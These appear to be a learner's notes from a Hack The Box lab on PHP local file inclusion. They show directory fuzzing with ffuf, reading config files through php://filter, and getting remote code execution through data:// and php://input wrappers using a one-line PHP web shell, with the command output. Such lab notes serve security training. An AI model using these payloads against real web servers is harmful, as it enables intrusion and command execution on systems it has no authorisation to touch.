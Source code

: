 ## Fuzzing for PHP Files
```shell-session
alakin2504@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

# PHP Wrappers
## Data
the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations
#### Checking PHP Configurations
he PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version.

```shell-session
alakin2504@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
```

```shell-session
alakin2504@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

#### Remote Code Execution
```shell-session
alakin2504@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

## Input
the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.
```shell-session
alakin2504@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

